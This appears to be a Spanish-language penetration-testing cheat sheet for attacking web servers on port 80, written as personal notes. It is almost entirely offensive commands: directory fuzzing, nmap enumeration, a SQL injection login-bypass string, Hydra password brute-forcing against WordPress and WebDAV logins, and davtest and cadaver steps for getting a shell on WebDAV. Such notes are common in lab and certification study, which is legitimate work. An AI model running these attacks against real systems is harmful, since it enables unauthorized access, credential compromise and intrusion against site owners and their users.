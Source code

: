 # HTTP (80)

Propietario: Adrian Gisbert Cabello

Cuando tengamos el puerto 80 abierto, lo primero es hacer un fuzzing para descubrir directorios:		***dirb [http://192.168.X.X*/](http://192.168.x.x/)**

Podemos usar scripts de nmap para enumerar la página HTTP:

- `nmap 192.168.X.X -sV -p 80 --script http-enum`
- `nmap 192.168.X.X -sV -p 80 --script http-headers`
- `nmap 192.168.X.X -sV -p 80 --script http-methods --script-args http-methods.url-path#/webdav/`

Podemos entrar en el ***X.X.X.X/phpinfo.php*** para saber versiones de la página web si lo tiene.

En los logins podemos usar una inyección sql: `' OR 1=1;-- -`

Comando para ver información del servidor web: `whatweb [http://192.168.X.X](http://192.168.x.x/)` | [`http://192.168.X.X/wordpress/`](http://192.168.x.x/wordpress/)

Comando para páginas wordpress: `wpscan --url [http://192.168.X.X/wordpress/](http://192.168.x.x/wordpress/)`

- `wpscan --url [http://192.168.X.X/wordpress/](http://192.168.x.x/wordpress/) --passwords /usr/share/wordlists/rockyou.txt`

Comando para fuerza bruta con hydra en wordpress: `hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  192.168.X.X http-post-form 'wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302'` (si no carga, en la P poner las contraseñas y en la L los usuarios)

- Si no nos funciona el comando anterior cambiar el parámetro `'wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302'` → `'wordpress/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid user'` o el mensaje de error que nos de cuando ponemos mal las credenciales en la página de login del wordpress.
- Si tenemos el usuario ponemos ***-l nombreusuario*** si no tenemos el usuario ponemos ***-L /directorio/del/diccionario.txt*** Lo mismo pasa con ***-p*** y ***-P***
- Los http-post-form usados en hydra para hacer fuerza bruta a logins en páginas web tienen la siguiente sintaxis:
    - `hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  192.168.X.X http-post-form 'URL:LOGIN_CAPTURADO_EN_BURPSUITE:MENSAJE_DE_ERROR' -t 64 -F`
    - `hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  192.168.X.X http-post-form 'wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302' -t 64 -F`
    - Los parámetros ***-t 64*** son los hilos que va a correr y ***-F*** es para que cuando encuentre una combinación válida, se detenga el ataque de fuerza bruta.
- Para hacer un ataque de fuerza bruta con hydra a una /webdav: `hydra -l /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.X.X http-get /webdav/`

Herramienta para explotar /webdav: `davtest -url [http://X.X.X.X/webdav/](http://x.x.x.x/webdav/)`

- `davtest -auth admin:123123 -url [http://X.X.X.X/webdav/](http://x.x.x.x/webdav/)`
- Para obtener una shell en la webdav: `cadaver [http://X.X.X.X/webdav](http://x.x.x.x/webdav)`